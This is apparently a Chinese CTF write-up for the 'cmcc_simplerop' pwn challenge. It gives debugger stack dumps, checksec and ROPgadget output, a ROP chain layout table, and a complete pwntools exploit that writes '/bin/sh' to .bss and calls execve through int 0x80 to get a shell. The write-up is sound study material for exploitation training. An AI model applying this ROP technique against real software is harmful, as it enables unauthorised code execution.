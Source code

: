 ```yaml
---
title: 'cmcc_simplerop'
date: 2024-01-04 13:00:00 +0800
categories: [int_0x80,bss,32bit]
tags: [ctf,pwn]
---
```

![image-20240104201935763](../assets/img/old_imgs/image-20240104201935763.png)

- `int 0x80`调用系统函数
- `.bss`段控制
- `32`位参数控制

1. 在主函数中存在溢出,但是栈空间并不准确,需要动态调试计算

```shell
pwndbg> telescope $ebp
00:0000│ ebp 0xffffcf28 —▸ 0x80495f0 (__libc_csu_fini) ◂— push ebx
01:0004│     0xffffcf2c —▸ 0x804903a (__libc_start_main+458) ◂— mov dword ptr [esp], eax
02:0008│     0xffffcf30 ◂— 0x1
03:000c│     0xffffcf34 —▸ 0xffffcfb4 —▸ 0xffffd100 ◂— '/home/bamuwe/simplerop'
04:0010│     0xffffcf38 —▸ 0xffffcfbc —▸ 0xffffd117 ◂— 'SHELL=/bin/bash'
05:0014│     0xffffcf3c ◂— 0x0
06:0018│     0xffffcf40 ◂— 0x0
07:001c│     0xffffcf44 —▸ 0x80481a8 (_init) ◂— push ebx
pwndbg> telescope $esp
00:0000│ esp 0xffffcef0 ◂— 0x0
01:0004│     0xffffcef4 —▸ 0xffffcf0c ◂— 0x41414141 ('AAAA')
02:0008│     0xffffcef8 ◂— 0x64 /* 'd' */
03:000c│     0xffffcefc —▸ 0x80495d2 (__libc_csu_init+130) ◂— add ebp, 1
04:0010│     0xffffcf00 ◂— 0x1
05:0014│     0xffffcf04 —▸ 0xffffcfb4 —▸ 0xffffd100 ◂— '/home/bamuwe/simplerop'
06:0018│     0xffffcf08 —▸ 0xffffcfbc —▸ 0xffffd117 ◂— 'SHELL=/bin/bash'
07:001c│ ecx 0xffffcf0c ◂— 0x41414141 ('AAAA')
```

得到距离返回地址`0x20`个距离

2. 程序中没有`system`函数也没有`/bin/sh`字符,都需要自己构造

   - 通过`int 0x80`系统调用`execve`构造`shell``

     `int80(11,"/bin/sh",null,null)`构造这样的`payload`,`11`代表了`execve`函数,在这里函数参数的传递和一般`32`位程序函数传参不同,是通过寄存器传参的,从左到右分别为`eax,ebx,ecx,edx`

   - 通过往`.bss`段上写入`/bin/sh`再调用得到`/bin/sh`

     ```shell
     bamuwe@qianenzhao:~$ file simplerop
     simplerop: ELF 32-bit LSB executable, Intel 80386, version 1 (GNU/Linux), statically linked, for GNU/Linux 2.6.24, BuildID[sha1]=bdd40d725b490b97d5a25857a6273870c7de399f, not stripped
     bamuwe@qianenzhao:~$ checksec simplerop
     [*] '/home/bamuwe/simplerop'
         Arch:     i386-32-little
         RELRO:    Partial RELRO
         Stack:    No canary found
         NX:       NX enabled
         PIE:      No PIE (0x8048000)
     ```

     程序中`.bss`段的内存地址每次运行不会改变,所以我们可以动态调试得到地址直接拿来使用

   - 在`ida`中可以看到有一个`read`函数,我们可以用它来实现往`.bss`段上的写入

     ![image-20240104203253599](../assets/img/old_imgs/image-20240104203253599.png)

     > 有点不一样但是一样

3. 构造`payload`得到`shell`

   ```shell
   bamuwe@qianenzhao:~$ ROPgadget --binary simplerop --only int
   Gadgets information
   ============================================================
   0x080493e1 : int 0x80
   
   Unique gadgets found: 1
   ```

   得到`int 0x80`地址

   | rbp  |              |          |            |                |
   | :--: | :----------: | :------: | :--------: | :------------: |
   |      |   padding    |          |            |      0x1c      |
   |      |              |          |            |      0x4       |
   |      |  read_addr   |   ret    | 0x0806CD50 |                |
   |      |              | read_ret | 0x0806e850 | read的返回地址 |
   |      |     0x0      |          |            |      arg1      |
   |      |  b'/bin/sh'  |          |            |      arg2      |
   |      |     0x8      |          |            |      arg3      |
   |      | pop_arg_addr |   ret    | 0x0806e850 |                |
   |      |     0x0      |   edx    |            |                |
   |      |     0x0      |   ecx    |            |                |
   |      |   bss_addr   |   ebx    | 0x080EAFBA |                |
   |      | pop_eax_addr |   ret    | 0x080bae06 |                |

```python
from pwn import *
from struct import pack
context.log_level = 'debug'
#io = process('./simplerop')
elf = ELF('./simplerop')
io=gdb.debug('./simplerop')
padding = b'A'*0x20

payload1 = padding + p32(0x0806CD50)+p32(0x0806e850)+p32(0)+p32(0x080eb7c3)+p32(0x8)
payload1 += p32(0x0806e850)+p32(0)+p32(0)+p32(0x080eb7c3)+p32(0x080bae06)+p32(0xb)+p32(0x080493e1)

io.sendlineafter(b'Your input :',payload1)
io.send(b'/bin/sh\x00')
io.interactive()   
```

> 代码可读性真的差,铁铁我爱说实话

踩了一个坑,平时用`plt`的`read`四位之后直接是返回地址,但是这里不同,`read`函数结束后才是`ret`还要重新跳转一次.

这题应该用`ROPgadgets_ropchain`也能过,但是不知道为什么没有成功

> [cmcc_simplerop - 不会修电脑 - 博客园 (cnblogs.com)](https://www.cnblogs.com/bhxdn/p/12330142.html)
>
> [[栈溢出进阶小技巧\] cmcc_simplerop一题多解 - 『脱壳破解区』 - 吾爱破解 - LCG - LSG |安卓破解|病毒分析|www.52pojie.cn](https://www.52pojie.cn/thread-1821941-1-1.html)

